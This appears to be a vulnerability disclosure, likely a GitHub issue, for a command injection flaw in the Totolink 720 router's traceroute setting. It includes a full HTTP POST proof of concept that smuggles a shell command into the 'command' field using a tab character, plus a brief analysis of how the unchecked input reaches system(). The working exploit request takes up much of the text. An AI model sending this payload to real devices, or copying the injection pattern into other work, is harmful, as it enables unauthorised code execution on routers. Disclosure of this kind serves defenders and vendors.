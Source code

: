 <b>Exploit Title:</b>Totolink 720 has a code execution vulnerability   
<b>Version:</b>V4.1.5cu.374  
<b>Date:</b>2022/08/16  
<b>Exploit Author:</b>xiaohu816  
<b>Vendor Homepage:</b>https://www.totolink.net/  

<b>POC:</b>  
After the administrator logs in, enter the "system tools" - > "route tracking" page to execute the command  
Execute TLS > / TMP / 2.txt  
  
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 58
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/advance/traceroute.html?time=1659892330160
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: SESSION_ID=2:1591951611:2
Connection: close

{"command":"aaaa\tls>/tmp/2.txt","num":"4","topicurl":"setTracerouteCfg"} 
```

<b>Analysis Report:</b>   
In the processing function of setting the routing parameters of the router, the input IP address is simply checked and then written into V6 through sprintf, and then the system is called for execution    
![image](https://user-images.githubusercontent.com/111302002/184791610-839f2172-38a1-47d8-9681-4ce5efff5d73.png)  
You can bypass the check by \ t to realize command injection
